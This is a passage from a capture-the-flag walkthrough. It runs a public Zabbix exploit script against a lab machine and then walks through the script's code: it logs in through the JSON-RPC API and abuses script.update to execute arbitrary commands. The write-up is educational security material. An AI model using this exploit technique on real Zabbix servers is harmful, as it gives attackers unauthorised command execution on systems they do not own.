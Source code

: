 ![](https://0xdfimages.gitlab.io/img/zipper-gui-hostid.gif)

Now I can run the shell, and get code execution in the Zabbix container.

    
    
    root@kali# python 39937.py 
    [zabbix_cmd]>>:  hostname
    91cae047f48a
    

### Shell Details

So what is the shell doing? I’ll walk it section by section.

The first block of code after defining the variables looks like this:

    
    
    ### auth
    payload = {
            "jsonrpc" : "2.0",
        "method" : "user.login",
        "params": {
            'user': ""+login+"",
            'password': ""+password+"",
        },
            "auth" : None,
        "id" : 0,
    }
    headers = {
        'content-type': 'application/json',
    }
    
    auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
    auth = auth.json()
    

This is just issuing the user.logon API call, just as I did above, to login.
It’s grabbing the resulting json and storing it as `auth`.

Next, there’s a `while True:` loop. I’ll look at the loop in three parts.
First, this block:

    
    
            cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
            if cmd == "" : print "Result of last command:"
            if cmd == "quit" : break
    

This just prints the prompt, reads the result into `cmd`. If `cmd` is empty,
it prints “Result of last command:”. If cmd is “quit”, it exits.

Next it uses the script.update API to update scriptid 1 with the new command
it read in:

    
    
    ### update
            payload = {
                    "jsonrpc": "2.0",
                    "method": "script.update",
                    "params": {
                        "scriptid": "1",
                        "command": ""+cmd+""
                    },
                    "auth" : auth['result'],
                    "id" : 0,
            }
    